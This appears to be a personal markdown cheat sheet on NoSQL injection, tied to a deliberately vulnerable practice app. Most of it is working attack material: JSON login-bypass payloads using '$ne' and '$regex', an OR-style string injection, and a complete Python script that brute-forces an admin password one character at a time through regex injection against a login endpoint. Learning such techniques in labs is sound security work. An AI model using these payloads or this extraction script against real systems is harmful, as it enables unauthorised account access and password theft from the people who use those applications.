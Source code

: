 
There are other databases that don't use SQL queries, other databases use documents, key-value...

---
# When i can try this injection?

- If you test a lot of SQLi and doesn't work you can try this type of injection

---

# Injections

## If you don't know the password...

With burpsuite you can try to intercept the request and modify them to put this: 

Original:

````json
{
	"username":"admin",
	"password":"admin"
}
````

Modified:

````json
{
	"username":"admin","password":{
		"$ne":  "admin"
	}
}
````

You can add the conditional $ne (not equal)

## If you don't know the username...

````json
{
	"username": {
		"$ne":"pedro" 
	},
	"password":{
		"$ne":  "admin"
	}
}
````

## Using regex

You can indicate that the username begin with an "a", and the password is not equal to admin

````json
{
	"username":{
		"$regex": "^a"
	},
	"password":{
		"$ne":"admin"}
}
````

You can do the same with the password.

````json
{
	"username": "admin",
	"password":{
		"$regex":"^a"}
}
````

### ¿How I can know the length of the password?

You can use this:
````json
{
	"username": "admin",
	"password":{
		"$regex":".{24}"}
}
````

When the response is ok means **that is in the range of characters**

Remember you can bruteforce this with an script in python:

````python
#!/usr/bin/python3

from pwn import *
import requests, time, sys, signal, string

def def_handler(sig, frame):
    print("\n\n[!] Saliendo... [!]")
    sys.exit(1)

# Ctrl_c
signal.signal(signal.SIGINT, def_handler)

# Global variables

login_url = "http://localhost:4000/user/login"
characters = string.ascii_lowercase + string.ascii_uppercase + string.digits

def makeNoSQLI():

    password = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Password")

    for position in range(0, 24): # you can put a high limit and stop when don't take more characters
        for character in characters:
            post_data = '{"username":"admin","password":{"$regex":"^%s%s"}}' % (password,character)

            p1.status(post_data)

            headers = {'Content-Type': 'application/json'}

            r = requests.post(login_url, headers=headers, data=post_data)

            if "Logged in as user" in r.text:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':

    makeNoSQLI()
````

`from pwn import *` --> You can call the functions of pwn without call pwn, e.x --> error: pwn.foo(), correct: foo()

`import requests, time, sys, signal, string` --> requests, to do petition, time to waiting times, sys to exit from the program, signal to do ctrl_c and string to declare all the characters


## Or 1=1 in NoSQL

````json
admin'||'1'=='1'
````

---


# Tips

Sometimes you can try to change the method ( get --> post ) and change the Content-Type by: "application/json" and you can try to do here an injection  

---

# Labs

- [https://github.com/Charlie-belmer/vulnerable-node-app](https://github.com/Charlie-belmer/vulnerable-node-app)

---

# Tags

#vulnerabilty  #nosql